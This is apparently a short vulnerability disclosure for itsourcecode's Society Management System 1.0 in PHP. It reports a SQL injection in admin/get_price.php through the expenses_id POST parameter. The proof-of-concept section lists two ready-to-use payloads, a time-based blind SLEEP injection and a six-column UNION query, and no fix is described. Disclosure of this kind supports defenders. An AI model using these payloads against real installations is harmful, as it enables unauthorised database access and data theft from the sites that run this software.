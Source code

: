 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

In the admin/get_price.php page, there is a SQL injection vulnerability. An attacker can inject SQL statements through the expenses_id parameter.
<img width="1100" alt="image" src="https://github.com/user-attachments/assets/e4036a97-6b27-46fa-881e-225225384be0">


# Poc

```
Parameter: expenses_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: expenses_id=1' AND (SELECT 2866 FROM (SELECT(SLEEP(5)))fobU) AND 'jWHt'='jWHt

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: expenses_id=1' UNION ALL SELECT NULL,CONCAT(0x717a716a71,0x546849444147574a76497952446555796b4952674c65737452485a514b55576d646a48435665566d,0x71786a7871),NULL,NULL,NULL,NULL-- -
```
<img width="1503" alt="image" src="https://github.com/user-attachments/assets/c426fa69-b11b-4512-a654-4cfd219eb758">
